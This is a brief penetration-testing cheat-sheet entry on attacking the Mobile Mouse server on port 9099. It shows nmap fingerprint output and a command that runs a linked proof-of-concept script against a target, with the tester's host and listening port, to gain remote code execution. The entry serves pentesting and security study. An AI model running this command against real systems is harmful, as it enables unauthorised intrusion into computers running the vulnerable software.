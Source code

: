 # 9099 - Mobile Mouse

Mobile Mouse is a remote control application that turns a mobile device into a wireless mouse and keyboard for a computer. Port `9099` is used by its server component to receive commands. This port can be targeted for exploitation due to insecure command handling in version `3.6.0.4`.

```bash
# Identify the service
9099/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest:
|     HTTP/1.0 200 OK
|     Server: Mobile Mouse Server
...
```

Use this [PoC](https://github.com/CSpanias/mobile-mouse-rce) to achieve RCE:

{% code overflow="wrap" %}
```bash
python3 mobile-mouse-rce.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```
{% endcode %}
